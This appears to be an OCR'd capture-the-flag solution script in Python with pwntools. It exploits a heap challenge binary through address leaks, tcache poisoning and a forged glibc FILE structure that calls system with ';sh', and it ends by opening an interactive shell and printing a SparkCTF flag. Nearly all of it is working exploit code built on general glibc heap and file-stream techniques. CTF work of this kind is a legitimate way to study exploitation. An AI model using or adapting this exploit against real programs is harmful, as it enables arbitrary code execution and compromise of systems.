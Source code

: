 ```python
show(0)
p.recvuntil(b"a"*0xa10)
leak=u64(p.recv(5).ljust(8,b"\x00"))<<12
log.info(hex(leak))

### our available chunks are 0x361 in tcache

alloc(0x500,b"a"*0x500+p64(0)+p64(0x000000000005e1))  #2

alloc(0x600,b"22222")  #3


edit(2,b"a"*0x510)
show(2)
p.recvuntil(b"a"*0x510)
libc.address=u64(p.recv(6).ljust(8,b"\x00"))-0x21ace0
log.info(hex(libc.address))

edit(2,b"a"*0x500+p64(0)+p64(0x5c1))
size=0x600+(0xe0-0x40-0x20)  # -0x20

#alloc(size,b"2"*size+p64(0)+p64(0x341))
alloc(size,b"2"*size+p64(0)+p64(0x361)) # 4


alloc(0x1000,b"9999") # to push

stdout=libc.symbols["_IO_2_1_stdout_"]

target=stdout
log.info(hex(target))
edit(4,b"2"*size+p64(0)+p64(0)+p64(target^((leak+0x43ca0)>>12)))

alloc(0x330,b"aaa")


f=FileStructure(null=libc.address+0x21b000+0x1000)
l=0xe0
f.vtable=libc.symbols["__GI__IO_wfile_jumps"]+0x18-0x38
f._wide_data=stdout+0xe0-0xe0
f.flags= u64(b"\x04\x04;sh".ljust(8,b"\x00")) #u64(b"\x04;sh\x00".ljust(8,b"\x00")) #0x68733bfbad4087 #u64(b"\x02;sh\x00".ljust(8,b"\x00"))  0x68733bfbad2887
f.fileno=1
f.chain=libc.symbols["_IO_2_1_stdin_"]
f._IO_read_ptr=stdout+0x83
f._IO_read_end =stdout+0x83
f._IO_read_base=0 #stdout+0x83
f._IO_write_base=stdout+0x83
f._IO_write_ptr=stdout+0x83
f._IO_write_end=0 #stdout+0x83
f._IO_buf_base=stdout+0x83
f._IO_buf_end=stdout+0x83+1
debug()

alloc(0x330,bytes(f)+p64(libc.address+0x21b860+8-0x68)+p64(libc.symbols["system"]))
p.interactive()
## SparkCTF{b27562cf8ef93a1663e16cc1128686ba03985d2284a13eec04cba69ad9034e39}

```
